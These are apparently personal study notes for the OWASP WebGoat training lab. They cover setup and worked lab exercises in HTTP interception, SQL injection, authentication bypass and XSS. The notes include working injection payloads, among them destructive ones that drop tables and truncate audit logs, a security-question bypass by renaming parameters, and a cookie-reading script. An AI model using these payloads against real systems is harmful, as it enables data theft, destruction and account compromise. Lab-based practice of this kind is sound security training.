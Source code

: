 # web goat
owasp demo site

# installation

* download from git:
```
https://github.com/WebGoat/WebGoat
git clone git@github.com:WebGoat/WebGoat.git
```

* install maven in kali linux
```
https://tutorialforlinux.com/2017/04/13/how-to-install-latest-apache-maven-on-kali-linux-easy-guide/
```
* install by using mvn
```
source $HOME/.bashrc
mvn clean install

Now let's start by compiling the project.

cd WebGoat
git checkout develop
mvn clean install
Now we are ready to run the project. WebGoat 8.x is using Spring-Boot.

mvn -pl webwolf spring-boot:run
```

* run stand-alone :

```
download
https://github.com/WebGoat/WebGoat/releases
then
java -jar webgoatxxx.jar
then:
http://localhost:8080/WebGoat/login

```

# attack techniques:

I will try to practice test first then categorize them later

## General

* http/s basics: learn to intercept request by using zap/burpsuite

```
Go General/HTTP basics
Use burp suite to capture get/post method then edit and forward

result:
POST /WebGoat/HttpBasics/attack2 HTTP/1.1
magic_num=36&answer=&magic_answer=36

read the magic_numb then edit it

Identify type of request: post/get
```

* http proxies: learn how to deploy proxy on zap/burpsuite

## injection flow
https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF

  1. sql injection
  * data manipulation language (select, insert, update)
  * data definition language (create, alter, drop)
  * data control language (grant, revoke)

* numeric injection

* combining sql injection techniques
  ```
  special characters
   - /*
    '*/:comment the remainder of the query
   - ; allow query chaining  ex: 'select * from users; drop table users;'
   - || allow string concatenate
   - union : 'Select id, text from news union all select name, pass from users'
   - joins
  ```
* blind sql injection
```
```

  2. examples:
```
- simple sql injection:
serName = Smith' or '1'='1
userName =' or 1=1 --
userID = 1234567 or 1=1
UserName = Smithâ€™;drop table users; truncate audit_log;--

- advance sql injection:
Smith'; select * from user_system_data where '1'='1

-blind sql injection:
https://my-shop.com?article=4
>> SELECT * from articles where article_id = 4

```

  3. practices:
  * simple sql injection
```
http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/6
input: Smith' or '1'='1
then submit

http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/7
input : 123456 or 1=1
then submit

```
  * advance sql injection
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/2
  6.a input: Smith'; select * from user_system_data where '1'='1
  105, dave, dave, ,
  6.b input: dave
  ```

  * combine all: burpsuite: could user repeater module to input data to save time to make request
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/4
  tried : http://sechow.com/bricks/docs/login-1.html but failed

  ```

  4. sql injection mitigations

  ```
  use order by
  http://192.168.60.148:8080/WebGoat/SqlInjection/servers?column=id
  edit query:
  column=(case when (true) then hostname else id end)

  input ip address: 192.168.6.4
  click submit
  ```

## Authentication flows

### Authentication bypasses
https://henryhoggard.co.uk/blog/Paypal-2FA-Bypass
1. concept:
usually take advantage of some flaw in the configuration or logic

* hidden inputs
* removing parameters
* forced browsing

2. practices:
There are many ways to practice this:
check hidden account which comment in source
remove parameters/change parameters name

```
http://localhost:8080/WebGoat/start.mvc#lesson/AuthBypass.lesson/1
intercept the post method
secQuestion0=test&secQuestion1=test&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746

change the parameter name:
secQuestion3=test&secQuestion4=test&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746

magicly it passed
```

### JWT tokens (under development)
https://jwt.io/introduction/

## Cross Site Scripting(XSS)

Cross-site script (also commonly known as XSS) is a vulnerability/flaw that combines …​ # the allowance of html/script tags as input that are …​ # rendred into a browser without encoding or sanitization

### Goals

* understand how XSS works
* understand best practices for defending against XSS injection attacks
* demonstrate knowledge on:
  * Reflected XSS injection
    ```
    malicious content from a user request: displayed to the user, written into the page
    social engineering
    runs with browser privileges inherited from user in browser
    ```
  * Stored XSS injections
  ```
  malicious content is stored on the server (in a database, file system, or other object) and later displayed to users in a web browser
  social engineering is not required

  ```
  * Dom-based XSS injection (also technically reflected )
  ```
    malicious content from a user request: by client-side scripts to write html
  ```
### Most common Locations

* search fields, input fields, error messages, hidden fields, pages: messages boards, free form comments, and http headers.

### XSS attacks may result in

* steal session cookie, create false request, create false fields, redirect your site,
* create a request that masquerade as a valid user
* execute malicious code on an end-user system (active scripting)
* insert inappropriate content

### Practices

```
1. simple: concurrency flows

http://localhost:8080/WebGoat/start.mvc#lesson/CrossSiteScripting.lesson/1
open 2 tabs and input: javascript:alert(document.cookie) you will see that 2 tabs have the same cookies
input answer: yes then click submit button

2. reflected xss scenario
http://localhost:8080/WebGoat/start.mvc#lesson/CrossSiteScripting.lesson/6
step 1. purchase with low value
step 2. update cart with high prices

3. blind
http://localhost:8080/WebGoat/start.mvc#lesson/CrossSiteScripting.lesson/10
console: run command `webgoat.customjs.phoneHome()`
open server running console to copy random value then input and submit
```
